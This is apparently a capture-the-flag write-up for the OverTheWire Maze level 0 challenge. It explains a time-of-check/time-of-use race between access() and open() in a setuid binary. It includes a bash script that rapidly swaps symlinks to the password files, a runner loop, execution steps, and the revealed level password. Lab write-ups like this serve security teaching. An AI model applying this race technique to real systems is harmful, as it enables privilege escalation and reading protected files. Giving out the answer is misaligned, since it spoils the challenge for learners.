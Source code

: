 
---
**Challenge URL:** [Maze Wargame](https://overthewire.org/wargames/)

---

### 🔐 Level Goal:

> The binary for this level attempts to read a file from a hardcoded path and print its content. However, it performs a permission check using `access()` before reading. Our goal is to **bypass this check** and read the actual password file using a **race condition**.

---

### 🧠 Concept Covered:

- ⏱️ **Race condition exploitation**
    
- 🧵 Rapid symbolic link switching
    
- 🧾 Understanding `access()`, `open()` sequence
    
- 📜 Script-based attack automation
    

---

### 🛠️ Exploit Breakdown:

#### 🔍 Binary Analysis (Pseudocode):

```c
int main() {
    char buf[20];
    memset(buf, 0, 20);

    if (access("/tmp/128ecf542a35ac5270a87dc740918404", R_OK) == 0) {
        setresuid(geteuid(), geteuid(), geteuid());
        int fd = open("/tmp/128ecf542a35ac5270a87dc740918404", O_RDONLY);
        if (fd < 0) exit(-1);

        read(fd, buf, 19);
        write(1, buf, 19);
    }
    return 0;
}
```

- The file to read is hardcoded as `/tmp/128ecf542a35ac5270a87dc740918404`
    
- `access()` checks permission — **as the current user (maze0)**
    
- `open()` reads — **as the effective user (maze1)**
    
- Race condition window = **between `access()` and `open()`**
    

---

### 🧪 Strategy

We use two scripts:

- 🧵 One rapidly switches the symlink
    
- 🏃 One runs the vulnerable binary in a loop
    

---

### ⚙️ Exploit Scripts

#### 📜 `race.sh` (symlink swapper)

```bash
#!/bin/bash
while true; do
    ln -sf /etc/maze_pass/maze0 /tmp/128ecf542a35ac5270a87dc740918404
    ln -sf /etc/maze_pass/maze1 /tmp/128ecf542a35ac5270a87dc740918404
done
```

#### 🏃 `runner.sh` (binary spammer)

```bash
#!/bin/bash
while true; do
    /maze/maze0
done
```

---

### ▶️ Execution Steps

1. Start the symlink switcher:
    
    ```bash
    chmod +x race.sh && ./race.sh
    ```
    
2. In another terminal, start the binary runner:
    
    ```bash
    chmod +x runner.sh && ./runner.sh
    ```
    
3. With some luck, the binary reads from `/etc/maze_pass/maze1` instead of `/maze_pass/maze0`.
    

---

### 🔑 Password for Maze Level 1:

```
hashaachon
```

> If the shell prints garbled content, rerun the scripts — timing is key! 🕰️

---
